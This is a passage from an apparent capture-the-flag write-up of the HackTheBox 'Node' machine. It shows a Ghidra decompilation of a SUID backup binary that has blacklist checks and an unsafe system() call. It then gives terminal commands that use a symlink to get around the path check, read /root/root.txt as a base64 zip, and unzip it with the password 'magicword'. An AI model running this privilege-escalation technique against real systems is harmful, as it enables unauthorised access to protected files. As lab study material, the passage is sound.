ct+Ee2pgR/AsSexKmzW09cx865KuxKnR3yoC6roUBb30Ijm5vQuzg/RM71P5ldpCK70RemYniiNeluBfHwQLOxkDn/8MN0CEBr1eFzkCNdblNBVA7b9m7GjoEhQXOpOpSGrXwbiHHm5C7Zn4kZtEy729ZOo71OVuT9i+4vCiWQLHrdxYkqiC7lmfCjMh9e05WEy1EBmPaFkYgxK2c6xWErsEv38++8xdqAcdEGXJBR2RT1TlxG/YlB4B7SwUem4xG6zJYi452F1klhkxloV6paNLWrcLwokdPJeCIrUbn+C9TesqoaaXASnictzNXUKzT905OFOcJwt7FbxyXk0z3FxD/tgtUHcFBLAQI/AzMDAQBjAG++IksAAAAA7QMAABgKAAAIAAsAAAAAAAAAIIC0gQAAAAByb290LnR4dAGZBwACAEFFAQgAUEsFBgAAAAABAAEAQQAAAB4EAAAAAA=="
        );
                    /* WARNING: Subroutine does not return */
    exit(0);
  }
  pcVar3 = strstr(argv[3],"//");
  if (pcVar3 != (char *)0x0) {
    displaySuccess("Finished! Encoded backup is below:\n");
    puts(
        "UEsDBDMDAQBjAG++IksAAAAA7QMAABgKAAAIAAsAcm9vdC50eHQBmQcAAgBBRQEIAEbBKBl0rFrayqfbwJ2YyHunnYq1Za6G7XLo8C3RH/hu0fArpSvYauq4AUycRmLuWvPyJk3sF+HmNMciNHfFNLD3LdkGmgwSW8j50xlO6SWiH5qU1Edz340bxpSlvaKvE4hnK/oan4wWPabhw/2rwaaJSXucU+pLgZorY67Q/Y6cfA2hLWJabgeobKjMy0njgC9c8cQDaVrfE/ZiS1S+rPgz/e2Pc3lgkQ+lAVBqjo4zmpQltgIXauCdhvlA1Pe/BXhPQBJab7NVF6Xm3207EfD3utbrcuUuQyF+rQhDCKsAEhqQ+Yyp1Tq2o6BvWJlhtWdts7rCubeoZPDBD6Mejp3XYkbSYYbzmgr1poNqnzT5XPiXnPwVqH1fG8OSO56xAvxx2mU2EP+Yhgo4OAghyW1sgV8FxenV8p5c+u9bTBTz/7WlQDI0HUsFAOHnWBTYR4HTvyi8OPZXKmwsPAG1hrlcrNDqPrpsmxxmVR8xSRbBDLSrH14pXYKPY/a4AZKO/GtVMULlrpbpIFqZ98zwmROFstmPl/cITNYWBlLtJ5AmsyCxBybfLxHdJKHMsK6Rp4MO+wXrd/EZNxM8lnW6XNOVgnFHMBsxJkqsYIWlO0MMyU9L1CL2RRwm2QvbdD8PLWA/jp1fuYUdWxvQWt7NjmXo7crC1dA0BDPg5pVNxTrOc6lADp7xvGK/kP4F0eR+53a4dSL0b6xFnbL7WwRpcF+Ate/Ut22WlFrg9A8gqBC8Ub1SnBU2b93ElbG9SFzno5TFmzXk3onbLaaEVZl9AKPA3sGEXZvVP+jueADQsokjJQwnzg1BRGFmqWbR6hxPagTVXBbQ+hytQdd26PCuhmRUyNjEIBFx/XqkSOfAhLI9+Oe4FH3hYqb1W6xfZcLhpBs4Vwh7t2WGrEnUm2/F+X/OD+s9xeYniyUrBTEaOWKEv2NOUZudU6X2VOTX6QbHJryLdSU9XLHB+nEGeq+sdtifdUGeFLct+Ee2pgR/AsSexKmzW09cx865KuxKnR3yoC6roUBb30Ijm5vQuzg/RM71P5ldpCK70RemYniiNeluBfHwQLOxkDn/8MN0CEBr1eFzkCNdblNBVA7b9m7GjoEhQXOpOpSGrXwbiHHm5C7Zn4kZtEy729ZOo71OVuT9i+4vCiWQLHrdxYkqiC7lmfCjMh9e05WEy1EBmPaFkYgxK2c6xWErsEv38++8xdqAcdEGXJBR2RT1TlxG/YlB4B7SwUem4xG6zJYi452F1klhkxloV6paNLWrcLwokdPJeCIrUbn+C9TesqoaaXASnictzNXUKzT905OFOcJwt7FbxyXk0z3FxD/tgtUHcFBLAQI/AzMDAQBjAG++IksAAAAA7QMAABgKAAAIAAsAAAAAAAAAIIC0gQAAAAByb290LnR4dAGZBwACAEFFAQgAUEsFBgAAAAABAAEAQQAAAB4EAAAAAA=="
        );
                    /* WARNING: Subroutine does not return */
    exit(0);
  }
  hash_check = strcmp(argv[3],"/");
  if (hash_check == 0) {
    displaySuccess("Finished! Encoded backup is below:\n");
    puts(
        "UEsDBDMDAQBjAG++IksAAAAA7QMAABgKAAAIAAsAcm9vdC50eHQBmQcAAgBBRQEIAEbBKBl0rFrayqfbwJ2YyHunnYq1Za6G7XLo8C3RH/hu0fArpSvYauq4AUycRmLuWvPyJk3sF+HmNMciNHfFNLD3LdkGmgwSW8j50xlO6SWiH5qU1Edz340bxpSlvaKvE4hnK/oan4wWPabhw/2rwaaJSXucU+pLgZorY67Q/Y6cfA2hLWJabgeobKjMy0njgC9c8cQDaVrfE/ZiS1S+rPgz/e2Pc3lgkQ+lAVBqjo4zmpQltgIXauCdhvlA1Pe/BXhPQBJab7NVF6Xm3207EfD3utbrcuUuQyF+rQhDCKsAEhqQ+Yyp1Tq2o6BvWJlhtWdts7rCubeoZPDBD6Mejp3XYkbSYYbzmgr1poNqnzT5XPiXnPwVqH1fG8OSO56xAvxx2mU2EP+Yhgo4OAghyW1sgV8FxenV8p5c+u9bTBTz/7WlQDI0HUsFAOHnWBTYR4HTvyi8OPZXKmwsPAG1hrlcrNDqPrpsmxxmVR8xSRbBDLSrH14pXYKPY/a4AZKO/GtVMULlrpbpIFqZ98zwmROFstmPl/cITNYWBlLtJ5AmsyCxBybfLxHdJKHMsK6Rp4MO+wXrd/EZNxM8lnW6XNOVgnFHMBsxJkqsYIWlO0MMyU9L1CL2RRwm2QvbdD8PLWA/jp1fuYUdWxvQWt7NjmXo7crC1dA0BDPg5pVNxTrOc6lADp7xvGK/kP4F0eR+53a4dSL0b6xFnbL7WwRpcF+Ate/Ut22WlFrg9A8gqBC8Ub1SnBU2b93ElbG9SFzno5TFmzXk3onbLaaEVZl9AKPA3sGEXZvVP+jueADQsokjJQwnzg1BRGFmqWbR6hxPagTVXBbQ+hytQdd26PCuhmRUyNjEIBFx/XqkSOfAhLI9+Oe4FH3hYqb1W6xfZcLhpBs4Vwh7t2WGrEnUm2/F+X/OD+s9xeYniyUrBTEaOWKEv2NOUZudU6X2VOTX6QbHJryLdSU9XLHB+nEGeq+sdtifdUGeFLct+Ee2pgR/AsSexKmzW09cx865KuxKnR3yoC6roUBb30Ijm5vQuzg/RM71P5ldpCK70RemYniiNeluBfHwQLOxkDn/8MN0CEBr1eFzkCNdblNBVA7b9m7GjoEhQXOpOpSGrXwbiHHm5C7Zn4kZtEy729ZOo71OVuT9i+4vCiWQLHrdxYkqiC7lmfCjMh9e05WEy1EBmPaFkYgxK2c6xWErsEv38++8xdqAcdEGXJBR2RT1TlxG/YlB4B7SwUem4xG6zJYi452F1klhkxloV6paNLWrcLwokdPJeCIrUbn+C9TesqoaaXASnictzNXUKzT905OFOcJwt7FbxyXk0z3FxD/tgtUHcFBLAQI/AzMDAQBjAG++IksAAAAA7QMAABgKAAAIAAsAAAAAAAAAIIC0gQAAAAByb290LnR4dAGZBwACAEFFAQgAUEsFBgAAAAABAAEAQQAAAB4EAAAAAA=="
        );
                    /* WARNING: Subroutine does not return */
    exit(0);
  }
  pcVar3 = strstr(argv[3],"/etc");
  if (pcVar3 != (char *)0x0) {
    displaySuccess("Finished! Encoded backup is below:\n");
    puts(
        "UEsDBDMDAQBjAG++IksAAAAA7QMAABgKAAAIAAsAcm9vdC50eHQBmQcAAgBBRQEIAEbBKBl0rFrayqfbwJ2YyHunnYq1Za6G7XLo8C3RH/hu0fArpSvYauq4AUycRmLuWvPyJk3sF+HmNMciNHfFNLD3LdkGmgwSW8j50xlO6SWiH5qU1Edz340bxpSlvaKvE4hnK/oan4wWPabhw/2rwaaJSXucU+pLgZorY67Q/Y6cfA2hLWJabgeobKjMy0njgC9c8cQDaVrfE/ZiS1S+rPgz/e2Pc3lgkQ+lAVBqjo4zmpQltgIXauCdhvlA1Pe/BXhPQBJab7NVF6Xm3207EfD3utbrcuUuQyF+rQhDCKsAEhqQ+Yyp1Tq2o6BvWJlhtWdts7rCubeoZPDBD6Mejp3XYkbSYYbzmgr1poNqnzT5XPiXnPwVqH1fG8OSO56xAvxx2mU2EP+Yhgo4OAghyW1sgV8FxenV8p5c+u9bTBTz/7WlQDI0HUsFAOHnWBTYR4HTvyi8OPZXKmwsPAG1hrlcrNDqPrpsmxxmVR8xSRbBDLSrH14pXYKPY/a4AZKO/GtVMULlrpbpIFqZ98zwmROFstmPl/cITNYWBlLtJ5AmsyCxBybfLxHdJKHMsK6Rp4MO+wXrd/EZNxM8lnW6XNOVgnFHMBsxJkqsYIWlO0MMyU9L1CL2RRwm2QvbdD8PLWA/jp1fuYUdWxvQWt7NjmXo7crC1dA0BDPg5pVNxTrOc6lADp7xvGK/kP4F0eR+53a4dSL0b6xFnbL7WwRpcF+Ate/Ut22WlFrg9A8gqBC8Ub1SnBU2b93ElbG9SFzno5TFmzXk3onbLaaEVZl9AKPA3sGEXZvVP+jueADQsokjJQwnzg1BRGFmqWbR6hxPagTVXBbQ+hytQdd26PCuhmRUyNjEIBFx/XqkSOfAhLI9+Oe4FH3hYqb1W6xfZcLhpBs4Vwh7t2WGrEnUm2/F+X/OD+s9xeYniyUrBTEaOWKEv2NOUZudU6X2VOTX6QbHJryLdSU9XLHB+nEGeq+sdtifdUGeFLct+Ee2pgR/AsSexKmzW09cx865KuxKnR3yoC6roUBb30Ijm5vQuzg/RM71P5ldpCK70RemYniiNeluBfHwQLOxkDn/8MN0CEBr1eFzkCNdblNBVA7b9m7GjoEhQXOpOpSGrXwbiHHm5C7Zn4kZtEy729ZOo71OVuT9i+4vCiWQLHrdxYkqiC7lmfCjMh9e05WEy1EBmPaFkYgxK2c6xWErsEv38++8xdqAcdEGXJBR2RT1TlxG/YlB4B7SwUem4xG6zJYi452F1klhkxloV6paNLWrcLwokdPJeCIrUbn+C9TesqoaaXASnictzNXUKzT905OFOcJwt7FbxyXk0z3FxD/tgtUHcFBLAQI/AzMDAQBjAG++IksAAAAA7QMAABgKAAAIAAsAAAAAAAAAIIC0gQAAAAByb290LnR4dAGZBwACAEFFAQgAUEsFBgAAAAABAAEAQQAAAB4EAAAAAA=="
        );
                    /* WARNING: Subroutine does not return */
    exit(0);
  }
  if (local_28 == 1) {
    displayTarget(argv[3]);
  }
    // a temporary file gets created here in tmp directory
  strcpy(file_to_backup,argv[3]);
  pid = getpid();
  time = ::time((time_t *)0x0);
  clock = ::clock();
  clock_time_pid_mixed = mix(clock,time,pid);
  srand(clock_time_pid_mixed);
  local_34 = rand();
  sprintf(temporary_file,"/tmp/.backup_%i",local_34);
  pcVar3 = file_to_backup;
  sprintf(cmd,"/usr/bin/zip -r -P magicword %s %s > /dev/null",temporary_file,pcVar3);
  system(cmd);
  hash_check = access(temporary_file,0);
  if (hash_check == -1) {
    if (local_28 == 1) {
      displayWarning("The target path doesn\'t exist");
    }
  }
  else {
    if (local_28 == 1) {
      displaySuccess("Finished! Encoded backup is below:\n");
    }
    sprintf(cmd,"/usr/bin/base64 -w0 %s",temporary_file,pcVar3);
    system(cmd);
  }
  if (local_28 == 1) {
    puts("\n");
  }
  remove(temporary_file);
  fclose(stream);
  return 0;
}
```


# Bypassing bad file check with a symbolic link

```bash
tom@node:/usr/local/bin$ mktemp -d
/tmp/tmp.CuRdskukcF
tom@node:/usr/local/bin$ ln -sf /root/root.txt /tmp/tmp.CuRdskukcF/test
tom@node:/usr/local/bin$ ./backup  -q 45fac180e9eee72f4fd2d9386ea7033e52b7c740afc3d98a8d0230167104d474  /tmp/tmp.CuRdskukcF/test
UEsDBAoACQAAANR9I0vyjjdALQAAACEAAAAXABwAdG1wL3RtcC5DdVJkc2t1a2NGL3Rlc3RVVAkAA9AVrFm3mKJgdXgLAAEEAAAAAAQAAAAAgd0C8mCdWovTl1kJtmTyUp63/s+Cky11zDwEUl8vuu5FY1f3aB9iap0V9Yg4UEsHCPKON0AtAAAAIQAAAFBLAQIeAwoACQAAANR9I0vyjjdALQAAACEAAAAXABgAAAAAAAEAAACggQAAAAB0bXAvdG1wLkN1UmRza3VrY0YvdGVzdFVUBQAD0BWsWXV4CwABBAAAAAAEAAAAAFBLBQYAAAAAAQABAF0AAACOAAAAAAA=
```


# Here we got the root.txt as a base64 encoded zip file.


```bash
──(kali㉿kali)-[10.10.14.8/23]-[~/htb/node/server/temp]
└─$ echo UEsDBAoACQAAANR9I0vyjjdALQAAACEAAAAbABwAdG1wL3RtcC4wTU9kczV6ZjFHL3Rlc3QudHh0VVQJAAPQFaxZSgDLWXV4CwABBAAAAAAEAAAAAGaVTDAl8nCBUm+hJhacMgYnLArcKouUpoJwnT8V0y01FUSJDNioS8yZlwG3v1BLBwjyjjdALQAAACEAAABQSwECHgMKAAkAAADUfSNL8o43QC0AAAAhAAAAGwAYAAAAAAABAAAAoIEAAAAAdG1wL3RtcC4wTU9kczV6ZjFHL3Rlc3QudHh0VVQFAAPQFaxZdXgLAAEEAAAAAAQAAAAAUEsFBgAAAAABAAEAYQAAAJIAAAAAAA==| base64 -d > root.zip
┌──(kali㉿kali)-[10.10.14.8/23]-[~/htb/node/server/temp]
└─$ unzip root.zip 
Archive:  root.zip
[root.zip] tmp/tmp.0MOds5zf1G/test.txt password: 
 extracting: tmp/tmp.0MOds5zf1G/test.txt  
┌──(kali㉿kali)-[10.10.14.8/23]-[~/htb/node/server/temp]
└─$ cat tmp/tmp.0MOds5zf1G/test.txt 
1722e99ca5f353b362556a62bd5e6be0
┌──(kali㉿kali)-[10.10.14.8/23]-[~/htb/node/server/temp]
└─$ 
```

The password is again **magicword** it is from the decompile view on  ghidra.